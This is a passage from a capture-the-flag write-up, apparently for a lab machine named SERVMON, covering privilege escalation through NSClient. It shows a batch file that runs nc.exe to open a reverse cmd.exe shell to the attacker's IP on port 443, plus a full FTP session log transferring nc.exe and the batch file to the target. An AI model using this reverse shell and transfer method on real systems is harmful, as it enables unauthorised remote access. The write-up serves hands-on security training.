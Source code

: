 Now, the plan is to upload a script to get a reverse shell and make the NSClient application run it as Administrator.
"*3. Download nc.exe and evil.bat to c:\temp from attacking machine* "

We make a file including the code :
~~~
@echo off       
c:\temp\nc.exe 10.10.14.23 443 -e cmd.exe
~~~

And we set up a web server or a FTP server on our attacking machine to be able to transfer the files "nc.exe" and "evil.bat" on the target. If we choose to set up a FTP server:
~~~
root@kali:~# systemctl start pure-ftpd
~~~

From the target, we connect to the ftp and download the files:
~~~
nadine@SERVMON c:\Temp>ftp 10.10.14.23
Connected to 10.10.14.23.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 18:33. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
504 Unknown command
User (10.10.14.23:(none)): fred
331 User fred OK. Password required
Password:
230 OK. Current directory is /
ftp> get evil.bat
200 PORT command successful
150 Connecting to port 51951
226-File successfully transferred
226 0.000 seconds (measured here), 417.48 Kbytes per second
ftp: 53 bytes received in 0.00Seconds 53000.00Kbytes/sec.
ftp> get nc.exe
200 PORT command successful
150-Connecting to port 51962
150 58.0 kbytes to download
226-File successfully transferred
226 0.068 seconds (measured here), 0.83 Mbytes per second
ftp: 59584 bytes received in 0.10Seconds 572.92Kbytes/sec.
ftp> quit

221-Goodbye. You uploaded 0 and downloaded 59 kbytes.
221 Logout.

nadine@SERVMON c:\Temp>dir  
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of c:\Temp

27/05/2020  17:34    <DIR>          .
27/05/2020  17:34    <DIR>          ..
27/05/2020  17:34                53 evil.bat
27/05/2020  17:34            59,584 nc.exe
               2 File(s)         59,637 bytes
               2 Dir(s)  27,869,081,600 bytes free
~~~
